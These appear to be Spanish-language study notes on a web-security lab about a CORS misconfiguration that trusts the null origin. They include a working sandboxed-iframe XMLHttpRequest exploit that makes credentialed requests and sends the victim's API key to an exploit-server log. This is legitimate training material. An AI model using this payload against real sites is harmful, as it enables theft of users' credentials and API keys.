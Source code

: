 En esta clase continuamos con el análisis de configuraciones inseguras de CORS, centrándonos en un caso donde el servidor confía en peticiones con origen null. Este tipo de comportamiento suele verse cuando se permiten solicitudes desde documentos cargados mediante iframes con ‘**sandbox**‘ y ‘**srcdoc**‘, lo cual representa un riesgo si además se permite el uso de cookies mediante ‘**Access-Control-Allow-Credentials**‘.

Aprovechamos esta vulnerabilidad para extraer la clave API del administrador. Para ello, construimos un exploit con un iframe que lanza una petición **XMLHttpRequest** desde un origen null, lo que permite al navegador incluir las cookies del administrador y acceder a información sensible. Finalmente, redirigimos la respuesta al registro del exploit server, lo que nos permite visualizar y enviar la clave para resolver el laboratorio.

Solucion
realizamos lo mismo no logeamos u en la respuesta del BS le damos forward y una ves ahi mandamos al repeater nuestra solicitud
![Pasted_image_20250728205329.png](/Imagenes/Pasted_image_20250728205329.png)
y bueno en la respuesta ene ACAC tenemos un true el cual podemos llegar a pensar que podemos tener un origin pero no sabes a cual asi que nosotros podemos mandar un NULL
y no lo acepta
![Pasted_image_20250728205717.png](/Imagenes/Pasted_image_20250728205717.png)

esto lo vamos a reflejar en un script de estilo iframe
(<iframe sandbox="allow-scripts" srcdoc='<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = 'https://exploit-0ab100c10401b08b806f5c8501ae002d.exploit-server.net/?apikey=' + btoa(req.responseText);
    };
    req.open('GET', 'https://0aeb00ce041cb072800e5dff00c20099.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();
</script></iframe>)


Y con esto si revisamos de nuevo los logs obtendremos la apikey

![Pasted_image_20250728211153.png](/Imagenes/Pasted_image_20250728211153.png)


![Pasted_image_20250728211359.png](/Imagenes/Pasted_image_20250728211359.png)

y con esto lo convertimos a null
